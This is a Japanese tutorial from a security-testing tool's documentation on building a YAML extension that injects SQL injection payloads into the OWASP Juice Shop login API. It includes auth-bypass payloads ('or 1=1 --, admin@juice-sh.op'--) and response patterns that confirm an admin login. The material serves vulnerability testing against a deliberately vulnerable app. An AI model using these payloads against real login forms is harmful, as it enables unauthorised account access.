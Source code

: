 [link-app-examination]:     app-examination.md
[link-points]:              ../points/intro.md
[link-using-extension]:     ../using-extension.md
[link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section

[doc-collect-phase]:        ../phase-collect.md
[doc-match-phase]:          ../phase-match.md
[doc-modify-phase]:         ../phase-modify.md
[doc-generate-phase]:       ../phase-generate.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project


# 変更用拡張機能の作成

本ドキュメントで説明する拡張機能は、受信したベースラインリクエストを変更してペイロードを挿入します。これらのペイロードによって、対象アプリケーション[“OWASP Juice Shop”][link-juice-shop]のログインフォームに存在するSQLi脆弱性を悪用できる可能性があります。
  
## 準備

FAST拡張機能を作成する前に、次の手順を実施することを強く推奨します:
1. [拡張機能の対象アプリケーションの挙動を調査します][link-app-examination]。
2. [拡張機能用のポイント構築の原則を読みます][link-points]。


## 拡張機能の構築

拡張機能を記述するファイル（例: `mod-extension.yaml`）を作成し、必要なセクションを記述します。

1. [**`meta-info`セクション**][link-meta-info]。

    拡張機能が検出を試みる脆弱性の説明を用意します。
    
    * 脆弱性ヘッダー: `OWASP Juice Shop SQLi (mod extension)`
    * 脆弱性の説明: `Demo of SQLi in OWASP Juice Shop (Admin Login)`
    * 脆弱性タイプ: SQLインジェクション
    * 脅威レベル: 高
    
    対応する`meta-info`セクションは次のようになります:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'
    ```
    
2. **`collect`セクション、[Collectフェーズ][doc-collect-phase]**。
    
    ログインを試行すると、REST APIの`POST /rest/user/login`メソッドが呼び出されます。
    
    POSTリクエストで渡される各データについて脆弱性のテストは同じ方法で実施されるため、APIに送信されたログイン用の各ベースラインリクエストごとにテストリクエストを作成する必要はありません。
    
    APIがログイン用リクエストを受信したときに1回だけ実行されるように拡張機能を設定します。そのために、一意性条件を伴うCollectフェーズを拡張機能に追加します。

    ログイン用のAPIリクエスト`/rest/user/login`は次の要素で構成されます:

    1. パスの第1要素の値`rest`
    2. パスの第2要素の値`user`
    3. アクションメソッド`login`
    
    これらの値を参照する対応するポイントは次のとおりです:

    1. パスの第1要素: `PATH_0_value`
    2. パスの第2要素: `PATH_1_value`
    3. `login`アクションメソッド: `ACTION_NAME_value`
    
    これら3要素の組み合わせが一意であることを条件に追加すると、拡張機能はAPIへの最初の`/rest/user/login`ベースラインリクエストに対してのみ実行されます（そのリクエストは一意と見なされ、それ以降のログイン用リクエストは一意ではないと見なされます）。 
    
    対応する`collect`セクションを拡張機能のYAMLファイルに追加します。 
    
    ```
    collect:
      - uniq:
        - [PATH_0_value, PATH_1_value, ACTION_NAME_value]
    ```

3. **`match`セクション、[Matchフェーズ][doc-match-phase]**。
    
    作成する拡張機能はログインフォームに含まれる脆弱性を悪用します。そのため、受信したベースラインリクエストが本当にログイン用のAPIリクエストであるかを確認する必要があります。
    
    ベースラインリクエストの宛先が次のURI（`/rest/user/login`）の場合にのみ実行されるように拡張機能を設定します。受信したリクエストに必要な要素が含まれているかを確認するMatchフェーズを追加します。これは次の`match`セクションで実現できます:

    ```
    match:
      - PATH_0_value: 'rest'
      - PATH_1_value: 'user'
      - ACTION_NAME_value: 'login'
    ```

4. **`modify`セクション、[Modifyフェーズ][doc-modify-phase]**。
    
    以下の目的を達成するために、ベースラインリクエストを変更する必要があるとします:
    * HTTPヘッダー`Accept-Language`の値を空にします（脆弱性の検出には不要です）。
    * `email`と`password`パラメータの実際の値を中立的な`dummy`値に置き換えます。
    
    上記の目的を満たすようにリクエストを変更する次の`modify`セクションを拡張機能に追加します:
    
    ```
    modify:
      - "HEADER_ACCEPT-LANGUAGE_value": ""
      - "POST_JSON_DOC_HASH_email_value": "dummy"
      - "POST_JSON_DOC_HASH_password_value": "dummy"
    ```
    
    !!! info "リクエスト要素記述の構文"
        JSON形式で含まれるリクエストデータは`<key: value>`のペアで保存されるため、`email`要素の値を参照するポイントは上記のような形になります。`password`要素の値を参照するポイントも同様の構造です。
        
        ポイントの構築方法の詳細は[こちら][link-points]をご覧ください。
 
5. **`generate`セクション、[Generateフェーズ][doc-generate-phase]**。

    対象アプリケーションのSQLインジェクション脆弱性を悪用するには、ベースラインリクエストの`email`パラメータの値を置き換えるべきペイロードが2つ知られています:
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`
        
    !!! info "変更済みリクエストへのペイロード挿入"
        拡張機能に`modify`セクションが含まれているため、ペイロードは前段で変更済みのリクエストに挿入されます。したがって、最初のペイロードを`email`フィールドに挿入した後、テストリクエストデータは次のようになります:
    
        ```
        {
            "email": "'or 1=1 --",
            "password":"dummy"
        }
        ```
    
        選択したペイロードにより任意のパスワードでログインに成功できるため、パスワードフィールドにペイロードを挿入する必要はありません。Modifyフェーズの適用後、このフィールドは`dummy`値になります。
    
        上記の要件を満たすテストリクエストを作成する`generate`セクションを追加します。
    
        ```
        generate:
          - payload:
            - "'or 1=1 --"
            - "admin@juice-sh.op'--"
          - into: "POST_JSON_DOC_HASH_email_value"
          - method:
            - replace
        ```

6. **`detect`セクション、[Detectフェーズ][doc-detect-phase]**。
    
    管理者権限でのユーザー認証が成功したことを示す条件は次のとおりです:
    * レスポンスボディに、値が`1`のショッピングカート識別子パラメータが存在すること。このパラメータはJSON形式で、次のように表れます:
    
        ```
        "bid":1
        ```
    
    * レスポンスボディに、値が`admin@juice-sh.op`のユーザーのメールアドレスパラメータが存在すること。このパラメータはJSON形式で、次のように表れます:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    上記の条件に基づき攻撃の成否を確認する`detect`セクションを追加します。
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "特殊記号のエスケープ"
    文字列内の特殊記号をエスケープすることを忘れないでください。

## 拡張機能ファイル

これで`mod-extension.yaml`ファイルには、拡張機能の動作に必要なセクションがすべて含まれています。ファイル内容の一覧を以下に示します:

??? info "mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

    collect:
      - uniq:
        - [PATH_0_value, PATH_1_value, ACTION_NAME_value]

    match:
      - PATH_0_value: 'rest'
      - PATH_1_value: 'user'
      - ACTION_NAME_value: 'login'

    modify:
      - "HEADER_ACCEPT-LANGUAGE_value": ""
      - "POST_JSON_DOC_HASH_email_value": "dummy"
      - "POST_JSON_DOC_HASH_password_value": "dummy"

    generate:
      - payload:
        - "'or 1=1 --"
        - "admin@juice-sh.op'--"
      - into: "POST_JSON_DOC_HASH_email_value"
      - method:
        - replace

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

## 拡張機能の使用

作成した拡張機能の使用方法の詳細は[こちらのドキュメント][link-using-extension]をご覧ください。